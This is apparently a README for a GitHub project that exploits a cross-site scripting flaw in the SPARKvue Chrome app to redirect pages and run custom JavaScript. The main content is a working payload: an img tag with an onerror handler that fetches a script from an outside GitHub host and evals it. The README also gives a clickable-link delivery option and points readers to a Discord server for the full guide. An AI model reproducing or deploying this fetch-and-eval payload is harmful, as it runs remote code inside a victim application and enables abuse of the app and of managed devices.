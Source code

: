 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue Chrome App XSS Vulnerability Found By ohonbob
The full guide to access the vulnerability is in the Titanium Network Discord Server: <a target="_blank" href="http://discord.gg/unblock">discord.gg/unblock</a>

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```
Or make it a clickable link:
```
<a href="https://amukerd.github.io/SparXSS">Click Me!</a>
```

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~

